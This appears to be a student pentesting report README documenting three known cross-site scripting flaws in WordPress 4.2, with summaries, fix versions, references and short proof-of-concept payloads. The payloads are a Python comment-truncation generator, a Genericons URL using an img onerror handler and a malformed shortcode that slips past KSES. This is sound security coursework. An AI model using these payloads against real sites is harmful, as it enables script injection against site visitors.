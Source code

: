 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Unauthenticated Stored Cross-Site Scripting
  - [ ] Summary: 
    - A comment longer than the SQL "text" field that stores it can lead to truncation and malformed HTML, opening up opportunities for XSS.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
    - Create an "<a>" tag longer than 64k, which upon truncation renders as malformed HTML. Browsers try to fix this which leads to interpretation of the onmouseover exploit.
    - Sample exploit generator:
    ```python
    out = "<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  "
    for x in range(64*1024):
      out += "A"
    out += "</a>"
    print out
    ```
  - [ ] Affected source code:
    - None, this is an SQL field size limitation that causes this exploit to work due to truncation
  - [ ] Reference:
    - https://wpvulndb.com/vulnerabilities/7945
    - http://klikki.fi/adv/wordpress2.html

2. Unauthenticated Genericons Cross-Site Scripting
  - [ ] Summary: 
    - A leftover example file in one of the default wordpress includes (Genericons) is vulnerable to XSS.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.2
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
    - Create a malicious link using the "filter" feature of the genericons example page with XSS embedded in it.
    - Example: 
    ```
    http://wpsite/wp-content/themes/twentyfifteen/genericons/example.html#1<img/ src=1 onerror= alert(1)>
    ```
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-content/themes/twentyfifteen/genericons/example.html)
    - Removed in WP 4.2.2
  - [ ] Reference:
    - https://wpvulndb.com/vulnerabilities/7979

3. Authenticated Shortcode Tags Cross-Site Scripting
  - [ ] Summary: 
    - Shortcode tags can be mixed with HTML to lead to malformed HTML, bypassing KSES validation and opening up XSS. This can be combined with other vulnerabilities discovered by the same person to allow a read-only "Subscriber" user to escalate privilege and create persistent XSS.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.5
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
    - Get funky with quotes and put HTML inside of shortcodes
    - Example:
    ```
    [caption width='1' caption='<a href="' ">]</a><a href="onClick='alert(1)'">
    ```
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

